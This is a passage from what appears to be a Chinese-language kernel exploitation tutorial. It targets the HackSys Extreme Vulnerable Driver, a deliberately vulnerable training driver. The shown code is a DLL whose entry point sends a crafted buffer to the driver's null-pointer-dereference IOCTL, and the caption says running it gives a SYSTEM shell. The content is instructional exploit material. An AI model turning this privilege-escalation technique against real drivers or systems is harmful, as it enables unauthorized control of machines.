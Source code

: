 ```
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    char exploit[1024];

    // Trigger the vulnerability
    memset(exploit, 'A', sizeof(exploit));
    DeviceIoControl(
        driverHandle,
        HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
        exploit,
        sizeof(exploit),
        NULL,
        0,
        NULL,
        NULL
    );
`}`

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
`{`
    switch (ul_reason_for_call)
    `{`
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        exploit();
        break;
    `}`
    return TRUE;
`}`
```

如下图所示，运行时可以成功得到SYSTEM Shell：

[![](https://p2.ssl.qhimg.com/t0145d426429412f6f5.gif)](https://p2.ssl.qhimg.com/t0145d426429412f6f5.gif)
